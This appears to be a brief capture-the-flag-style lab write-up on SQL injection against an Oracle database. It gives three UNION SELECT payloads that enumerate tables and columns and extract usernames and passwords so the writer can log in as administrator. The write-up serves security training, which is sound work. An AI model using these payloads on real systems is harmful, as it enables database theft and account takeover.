



SQL6 : SQL injection attack ,listing the database contents on Oracel
Before Solve
 
End Goals 
-Determine which table containg the username and password 
-Determine column names in table
-Login as the administrator user

To solve the Lab first find the table_name use payload '+UNION+SELECT+table_name,NULL+FROM+all_tables-- after find table name use payload 
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_OCAWJM'-- and aafter get the password name and username use payload  
'+UNION+SELECT+PASSWORD_KVFFNO,+USERNAME_KCXBVG+FROM+USERS_OCAWJM-- 
After we get username and password we can login as a administrator

After login Boom the lab is solved
